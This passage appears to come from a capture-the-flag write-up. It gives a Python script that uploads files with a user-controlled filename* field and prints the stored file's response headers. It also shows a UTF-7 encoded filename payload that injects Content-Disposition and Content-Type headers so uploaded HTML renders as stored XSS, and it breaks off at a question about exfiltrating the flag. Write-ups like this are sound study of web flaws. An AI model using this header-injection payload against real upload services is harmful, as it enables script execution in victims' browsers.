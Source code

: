 ```python3

def get_file(uuid):
    response = SESSION.get(URL_STORAGE+'/'+uuid)

    # Print headers
    for header, value in response.headers.items():
        print(f"{header}: {value}")
    
    print()  # blank line between headers and body
    
    # Print body (decoded text)
    print(response.text)

def upload_file(upload_token, shitty):
    boundary = '----WebKitFormBoundaryUSM2sYqEa97vq9gr'
    
    body = (
        f'--{boundary}\r\n'
        'Content-Disposition: form-data; name="upload_token"\r\n\r\n'
        f'{upload_token}\r\n'
        f'--{boundary}\r\n'
        f'Content-Disposition: form-data; name="upload"; filename*={shitty}\r\n'
        'Content-Type: image/jpeg\r\n\r\n'
        '<html><h1>HELLO</h1></html>\r\n'
        f'--{boundary}--\r\n'
    )
    
    headers = {
        'Content-Type': f'multipart/form-data; boundary={boundary}',
    }
    
    response = SESSION.post(URL_STORAGE+'/upload', headers=headers, data=body.encode('utf-8'))
    response_json = json.loads(response.text)
    print(f"Filename: {response_json['filename']} \nUUID:{response_json['uuid']}\n")
    return response_json['uuid']


login()

while True:
    try:
        shitty = input('\n>')
        token = get_token()
        uuid = upload_file(token, shitty)
        get_file(uuid)
    except:
        pass
```


Notice that for getting html you also need to create a new `content-disposition` header, so, the browser would get this one, instead of `attachment`.
Like this `UTF-7''A+AAo-Content-disposition:+ACA-INLINE+AAo-content-type:+ACA-text/html+AAo-`.
The problem is that, as I mentioned before, the UPLOAD website does not list files and STORAGE, where the XSS is, does not have any authentication. 
So how can we exfiltrate the flag?
